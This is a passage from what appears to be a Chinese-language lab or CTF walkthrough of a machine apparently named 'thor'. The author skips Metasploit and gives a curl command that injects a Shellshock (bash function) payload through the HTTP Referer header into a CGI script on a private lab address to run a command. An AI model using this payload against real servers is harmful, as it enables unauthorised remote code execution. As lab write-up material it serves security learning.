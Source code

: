 ![](./pic-thor/18.jpg)

使用`searchsploit`发现有脚本可用，但是是`msf`中的，这个尽量不依赖`msf`，所以这里另择方法

这里可以利用`curl`这个命令，下面是探测是否可用的方法，不过也是利用方法。

前面使用`nmap`探测时，nmap中有提示，可在`header`中利用，也就是`http`的头中

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```

![](./pic-thor/19.jpg)
